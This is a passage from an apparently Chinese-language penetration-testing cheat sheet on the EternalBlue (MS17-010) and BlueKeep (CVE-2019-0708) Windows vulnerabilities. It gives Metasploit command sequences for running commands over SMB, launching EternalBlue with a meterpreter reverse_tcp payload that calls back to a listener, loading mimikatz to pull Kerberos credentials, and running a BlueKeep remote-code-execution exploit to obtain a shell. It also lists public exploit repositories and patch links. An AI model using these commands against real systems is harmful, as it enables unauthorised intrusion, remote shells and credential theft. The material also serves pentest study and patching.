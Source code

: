     # 命令执行,不回弹
    use auxiliary/admin/smb/ms17_010_command
    set command whoami

    # 使用 payload 连上去
    use exploit/windows/smb/ms17_010_eternalblue
    set payload windows/x64/meterpreter/reverse_tcp
    set lhost [ip]      # 设置回弹地址
    set rhosts [ip]
    run

    # msf 下加载 mimikatz 模块
    load mimikatz
    kerberos
    ```

- 修复工具
    - ["永恒之蓝"勒索蠕虫漏洞修复工具](https://www.qianxin.com/other/wannacryfix)

**bluekeep & CVE-2019-0708**
- 相关文章
    - [RDP Stands for "Really DO Patch!" - Understanding the Wormable RDP Vulnerability CVE-2019-0708](https://securingtomorrow.mcafee.com/other-blogs/mcafee-labs/rdp-stands-for-really-do-patch-understanding-the-wormable-rdp-vulnerability-cve-2019-0708/)
    - [worawit/CVE-2019-0708](https://github.com/worawit/CVE-2019-0708/blob/master/NOTE.md)

- POC | Payload | exp
    - [zerosum0x0/CVE-2019-0708](https://github.com/zerosum0x0/CVE-2019-0708)
    - [robertdavidgraham/rdpscan](https://github.com/robertdavidgraham/rdpscan)
    - [Ekultek/BlueKeep](https://github.com/Ekultek/BlueKeep)
    - [mekhalleh/cve-2019-0708](https://github.com/mekhalleh/cve-2019-0708) (实测、蓝屏)
    - [Cyb0r9/ispy](https://github.com/Cyb0r9/ispy)
    - [k8gege/CVE-2019-0708](https://github.com/k8gege/CVE-2019-0708) - 批量检测工具
    - [cbwang505/CVE-2019-0708-EXP-Windows](https://github.com/cbwang505/CVE-2019-0708-EXP-Windows) - Windows版单文件exe版
    - [nccgroup/BKScan](https://github.com/nccgroup/BKScan)

- 修复工具
    - ["CVE-2019-0708"漏洞检测修复工具](https://www.qianxin.com/other/CVE-2019-0708)
    - https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708

- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
    set rhosts [ip]
    run
    ```
    ```bash
    # 利用
    use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    set target [1-7]
    set rhosts [ip]
    show options
    exploit
    shell
    python
    ```

